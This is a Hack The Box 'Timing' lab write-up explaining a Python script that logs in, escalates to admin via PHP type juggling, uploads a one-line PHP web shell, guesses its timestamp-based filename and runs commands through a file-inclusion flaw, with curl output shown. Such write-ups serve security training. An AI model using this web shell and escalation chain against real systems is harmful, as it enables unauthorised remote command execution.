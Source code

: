 # Hack The Box. Machines. Timing

Machine write-up: https://7rocky.github.io/en/htb/timing

### `upload.py`

The purpose of this script is to upload a PHP web shell. For that, we need to access with credentials `aaron:aaron`, modify its role to be `admin` (abusing Type Juggling) and then upload the file. Finally, we need to compute the filename using the same procedure that the server uses.

We start by creating a `requests` session (so that we don't need to care about cookies in subsequent requests), and declaring the name of the file to upload:

```python
    s = requests.session()
    filename = 'r.php.jpg'

    s.post('http://10.10.11.135/login.php?login=true', data={
        'user': 'aaron',
        'password': 'aaron'
    })
    print(f'Cookie: PHPSESSID={s.cookies["PHPSESSID"]}')
```

Then we need to change the user's role to be `1`, so that we can upload files. In the [write-up](https://7rocky.github.io/en/htb/timing) I show two ways of becoming `admin` (or role `1`). Here I will abuse Type Juggling:

```python
    s.post('http://10.10.11.135/profile_update.php?login.php', data={
        'firstName': 'x', 'lastName': 'x', 'email': 'x', 'company': 'x', 'role': '1'
    })
```

The server will receive role as `"1"`, and the check is `$_SESSION['role'] != 1` (PHP), so both values are the same (there is no type comparison).

Now we can upload the PHP web shell:

```python
    r = s.post('http://10.10.11.135/upload.php?login.php', files={
        'fileToUpload': (filename, b'<?php system($_GET["cmd"]); ?>')
    })
```

The server will perform some operations with the filename. It uses its relative time, adds a string `"$file_hash"` and then computes an MD5 hash. To get the current time relative to the server, we can use the `Date` header from the HTTP response and parse it to a time stamp.

As there can be some timing delays between request and response, I use some offset from below and above the time sent by the server and request the resulting file to see if I get 200 OK:

```python
    time = int(parser.parse(r.headers['Date']).timestamp())

    for i in range(-5, 5):
        test_file = f"{md5(b'$file_hash' + str(time + i).encode()).hexdigest()}_{filename}"

        if requests.get(f'http://10.10.11.135/images/uploads/{test_file}').status_code == 200:
            print('RCE:', f'http://10.10.11.135/images/uploads/{test_file}')
```

And that's it. Once the file is found, we can start using the web shell (exploiting a Local File Inclusion vulnerability that exists in the server) in the browser, using `curl` or whatever:

```console
$ python3 upload.py
Cookie: PHPSESSID=dg8sokd2ki84a93ggp2tttrlm6
RCE: http://10.10.11.135/images/uploads/67bcd57488a373e2873212f23c06c222_r.php.jpg

$ curl 10.10.11.135/images/uploads/67bcd57488a373e2873212f23c06c222_r.php.jpg  
<?php system($_GET["cmd"]); ?>

$ curl '10.10.11.135/image.php?img=images/uploads/67bcd57488a373e2873212f23c06c222_r.php.jpg&cmd=whoami'  
www-data
```
